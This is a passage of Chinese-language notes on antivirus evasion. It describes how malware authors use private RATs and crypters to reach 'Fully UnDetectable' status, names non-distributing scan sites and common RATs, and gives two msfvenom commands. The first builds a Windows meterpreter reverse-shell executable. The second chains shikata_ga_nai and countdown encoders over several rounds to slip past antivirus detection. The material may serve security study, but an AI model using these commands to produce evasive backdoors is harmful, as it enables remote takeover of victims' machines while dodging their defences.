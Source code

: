   加密器crypter 的特征字符

## 四、当前现状

* 恶意软件制造者

  编写私有 RAT 软件，避免普遍被 AV 所知的特征字符

  使用独有 crypter 软件加密恶意程序

  处事低调，尽量避免被发现

  没有能力自己编写的恶意代码的黑客，通过直接修改特征码的方式免杀。

  Fully UnDetectable 是最高追求（FUD）

* AV 厂商

  广泛采集样本，尽快发现新出现的恶意程序，更新病毒库。

  一般新的恶意软件安全 UD 窗口期是一周左右。

  与·恶意软件制造者永无休止的拉锯战。

  新的启发式检测技术尚有待完善（误杀漏杀）。

* 单一 AV 厂商的病毒库很难达到100%覆盖

  * https://www.virustotal.com/gui/

    接口被某些国家的AV软件免费利用，没有自己的病毒库。

  * https://www.virscan.org/

  * 在线多引擎查杀网站与 AV 厂商共享信息

  * 搞黑的在线多引擎查毒站

    * https://nodistribute.com/
    * http://viruscheckmate.com/check/

* 常用的 RAT 软件

  灰鸽子、波尔、黑暗彗星、潘多拉、Nanocore



1. 生成反弹 shell

   ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.215 LPORT=4444 -a x86 --platform windows -f exe -o 1.exe
   ```

   [![BMb84U.md.png](https://s1.ax1x.com/2020/10/27/BMb84U.md.png)](https://imgchr.com/i/BMb84U)

2. 加密编译反弹·shell

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.216 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | msfvenom -a x86 --platform windows -e x86/countdown - i 8 - f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -b '\x00' -f exe -o 2.exe
   ```
